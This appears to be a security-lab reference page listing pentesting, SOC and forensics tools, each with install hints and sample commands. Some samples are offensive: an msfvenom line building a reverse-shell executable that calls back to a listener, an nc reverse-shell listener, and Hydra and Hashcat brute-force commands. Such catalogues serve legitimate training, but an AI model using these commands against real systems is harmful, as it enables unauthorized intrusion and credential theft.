

This page is a **practical, opinionated catalogue** of tools I use and recommend in real labs and training. Each entry has a short purpose statement, quick install hint, 1–2 example commands, and a short best-practice note. Use it as a checklist when provisioning a new lab, preparing a pentest VM, or building a SOC workbench.

:::warning
This list is for **defensive learning and authorized testing only**. Never use offensive tools against systems you do not own or have explicit permission to test.
:::

## Quick index (jump to a category)

* Recon & Discovery  
* Port & Service Scanning  
* Web Application Testing  
* Exploitation Frameworks  
* Password Cracking & Auth Testing  
* Vulnerability & Compliance Scanners  
* Network Analysis & Packet Capture  
* Monitoring, SIEM & Detection  
* Digital Forensics & Memory Analysis  
* Malware Analysis & Sandboxing  
* Cloud & DevSecOps Tools  
* Utilities & Helpers

## Recon & Discovery

**Nmap** — network discovery & port scanning  
* Install: `sudo apt install nmap`  
* Example:

    ```bash
    nmap -sS -p- -T4 -oN full-scan.txt 192.168.56.0/24
    ````

    :::tip
    Use NSE scripts (`--script`) to extend discovery (vuln, auth, http-enum).
    :::

**Masscan** — extremely fast Internet-scale port scanner
* Install: compile from source or package manager.
* Example:

    ```bash
    masscan -p0-65535 10.0.0.0/8 --rate=10000 -oX masscan.xml
    ```

    :::caution
    noisy — use in lab and with permission.
    :::

**Amass** — subdomain enumeration & intelligence gathering
* Install: `go install github.com/OWASP/Amass/v3/...` (or package)
* Example:

    ```bash
    amass enum -d example.com -o amass.txt
    ```

## Port & Service Scanning

**RustScan** — fast port scanner combining speed with nmap integration
* Example:

    ```bash
    rustscan -a 192.168.1.10 -b 1500 -- -sV -oN rust-nmap.txt
    ```

**Netcat (nc)** — swiss-army TCP/UDP utility for banner grabbing and simple transfers
* Example:

    ```bash
    nc -lvnp 4444    # listen for reverse shells
    nc target 80     # manual HTTP/ banner checks
    ```

## Web Application Testing

**Burp Suite** — proxy, Repeater, Intruder, Scanner (Pro)
* Install: download .jar or installer (Community & Pro).
* Workflow: configure browser proxy → intercept → send to Repeater/Intruder → scan (Pro).

**OWASP ZAP** — open-source web app scanner & proxy
* Install: package manager or download bundles.
* Use for scripted scans in CI.

**Nikto** — web server vulnerability scanning (server-focused)
* Example:

    ```bash
    nikto -h https://example.local -output nikto.html -Format html
    ```

**gobuster / dirsearch** — directory & file discovery
* Example:

    ```bash
    gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

## Exploitation Frameworks

**Metasploit Framework** — exploitation, payloads, post-exploitation (msfconsole, msfvenom)
* Start:

    ```bash
    msfconsole
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o shell.exe
    ```

Use responsibly in labs and documented engagements.

**Cobalt Strike** — commercial red-team platform (licensed)
Used for emulation and complex engagement orchestration (only with license & legal use).

## Password Cracking & Auth Testing

**John the Ripper (Jumbo)** — flexible CPU-based cracking & formats
* Example:

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt --rules unshadowed.txt
    ```

**Hashcat** — GPU-accelerated password cracking
* Example:

    ```bash
    hashcat -m 1000 -a 0 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt -w 3
    ```

**Hydra** — online login brute-forcer (SSH, FTP, HTTP forms)
* Example:

    ```bash
    hydra -L users.txt -P rockyou.txt ssh://192.168.56.101 -t 4 -f
    ```

    :::warning
    can lock accounts — use slow rates and lab targets.
    :::

## Vulnerability & Compliance Scanners

* **Nessus** — commercial vulnerability scanner (enterprise-grade)
* **OpenVAS / Greenbone** — open-source vulnerability management suite
* Example OpenVAS startup: configure via web UI and run schedule scans.

**Trivy** — container & image scanning for vulnerabilities (fast, CI-friendly)
* Example:

    ```bash
    trivy image ubuntu:20.04
    ```

**Snyk / Dependabot** — dependency scanning for code repos (DevSecOps integration)

## Network Analysis & Packet Capture

* **Wireshark** — GUI packet analysis (follow TCP streams, export objects)
* **tcpdump** — CLI packet capture, BPF filters
* Example:

    ```bash
    sudo tcpdump -i eth0 -nn -s 0 -w capture.pcap
    ```

* **tshark** — CLI version of Wireshark for automation
* **tcpflow** — reassemble flows for file extraction

## Monitoring, SIEM & Detection

**Splunk** — enterprise SIEM / log analytics (free dev tier available)
* Example SPL:

    ```spl
    index=web_logs status=500 | stats count by uri
    ```

* **ELK / Elastic Stack (Elasticsearch, Logstash, Kibana)** — open alternative to Splunk
* **Security Onion** — SOC distro bundling Zeek, Suricata, Wazuh, Elastic, TheHive — great for blue team labs.
* **Wazuh** — host-based monitoring (HIDS) and EDR-like features.

## Digital Forensics & Memory Analysis

* **Autopsy / Sleuth Kit** — disk image analysis, file carving, timelines
* **Volatility 2/3** — memory forensics, malfind, netscan, cmdline extraction
* Example:

    ```bash
    python3 vol.py -f mem.raw windows.pslist
    ```

* **FTK Imager / WinPMem / LiME** — memory & disk acquisition tools

## Malware Analysis & Sandboxing

* **Cuckoo Sandbox** — automated malware analysis platform (dynamic analysis)
* **Any.run** — interactive cloud-based sandbox (commercial)
* **YARA** — signature rules for detecting malware families
* **rizin / radare2 / Ghidra** — reverse engineering tools (disassembly & analysis)

## Cloud & DevSecOps Tools

* **AWS CLI / Azure CLI / gcloud** — cloud administration & auditing (enable logging & inventory)
* **ScoutSuite / Prowler / PMapper** — cloud security posture assessment tools
* **Terrascan / Checkov** — IaC (Terraform/CloudFormation) scanning for misconfigurations

* **kube-bench / kube-hunter** — Kubernetes security auditing and hunting tools

## Utilities & Helpers

* **jq** — JSON processor (handy when parsing API responses)
* Example:

    ```bash
    cat out.json | jq '.vulnerabilities[] | {id, severity}'
    ```

* **grep / ripgrep / awk / sed** — text processing basics
* **Docker & Docker Compose** — spin up lab services and vulnerable apps
* **screen / tmux** — session multiplexers for long-running jobs

## Workflow Diagram (Typical tool flow)



## Recommended Tooling Bundles (by role)

* **Pentester (Offensive)**: Kali Linux (Metasploit, Burp, John, Hashcat, Hydra, Nmap, Nikto, Gobuster)
* **Blue Team / SOC Analyst**: Security Onion, Splunk/ELK, Wazuh, Zeek, Suricata, TheHive/Cortex
* **Forensics/IR**: Autopsy, Sleuth Kit, Volatility, FTK Imager, YARA, Plaso/Timesketch
* **Cloud Security**: AWS CLI, ScoutSuite, Prowler, Trivy, kube-bench

## Best Practices for Tooling & Lab Hygiene

* Keep **tool versions documented** in your lab notes.
* Use **isolated networks** for all offensive testing.
* Prefer **read-only acquisition** for forensic evidence.
* Keep a **snapshot** before destructive or high-impact tests.
* Use **credential rotation** in lab VMs (do not reuse real credentials).
* Automate installs with scripts or IaC for reproducible labs.

## Further Reading & References

* Tool documentation & manpages (always your first source).
* Official GitHub repos for each tool — many have install scripts and examples.
* Lab writeups & CTF reports — great for learning real workflows.